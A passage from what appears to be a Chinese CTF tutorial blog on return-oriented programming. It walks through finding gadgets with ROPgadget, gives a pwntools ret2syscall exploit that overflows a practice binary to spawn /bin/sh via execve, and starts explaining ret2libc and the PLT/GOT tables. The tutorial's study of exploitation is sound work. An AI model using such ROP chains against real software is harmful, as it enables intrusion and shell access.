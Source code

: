 这个可以直接控制其它三个寄存器。

除此之外，我们需要获得 /bin/sh 字符串对应的地址。

|   |   |
|---|---|
|1|```<br>ROPgadget --binary rop  --string '/bin/sh'<br>```|

[![](https://www.onctf.com/images/image-20210721102351995.png)](https://www.onctf.com/images/image-20210721102351995.png)

还需要int 0x80 的地址

|   |   |
|---|---|
|1|```<br>ROPgadget --binary rop  --only 'int'  <br>```|

[![](https://www.onctf.com/images/image-20210721102932915.png)](https://www.onctf.com/images/image-20210721102932915.png)

下面就是对应的 payload，其中 0xb 为 execve 对应的系统调用号。

|   |   |
|---|---|
|1  <br>2  <br>3  <br>4  <br>5  <br>6  <br>7  <br>8  <br>9|```<br>from pwn import *sh = process('./rop')pop_eax_ret = 0x080bb196pop_edx_ecx_ebx_ret = 0x0806eb90int_0x80 = 0x08049421bin_addr = 0x80be408payload='a'*112+p32(pop_eax_ret)+p32(0xb)+p32(pop_edx_ecx_ebx_ret)+p32(0)+p32(0)+p32(bin_addr)+p32(int_0x80)sh.sendline(payload)sh.interactive()<br>```|

在ctf-wiki上面的payload用了这个

|   |   |
|---|---|
|1|```<br>payload = flat(['A' * 112, pop_eax_ret, 0xb, pop_edx_ecx_ebx_ret, 0, 0, bin_addr, int_0x80])<br>```|

flat模块能将pattern字符串和地址结合并且转为字节模式，和我们的p32效果一样的

## [](https://www.onctf.com/posts/cd763be3.html#ret2libc "ret2libc")ret2libc[](https://www.onctf.com/posts/cd763be3.html#ret2libc)

### [](https://www.onctf.com/posts/cd763be3.html#%E7%90%86%E8%AE%BA-3 "理论")理论[](https://www.onctf.com/posts/cd763be3.html#%E7%90%86%E8%AE%BA-3)

ret2syscall用的是静态链接，而libc主要利用了动态链接

关于静态链接和动态链接，静态链接其实就是直接在原有的基础之上进行访问，而动态链接就是直接放上一个链接来访问。

下面介绍一下plt表和got表

[![](https://www.onctf.com/images/image-20210721161507816.png)](https://www.onctf.com/images/image-20210721161507816.png)

这里以c语言中的printf函数为例介绍plt表和got表。当调用printf函数时，先去plt表和got表寻找printf函数的真实地址。plt表指向got表中的地址，got表指向glibc中的地址。

当首次调用函数时，过程为：plt->got->plt->公共plt->动态连接器_dl_runtime_resolve->找到函数地址。其中，_dl_runtime_resolve函数作用为查找函数地址并返回给got表。
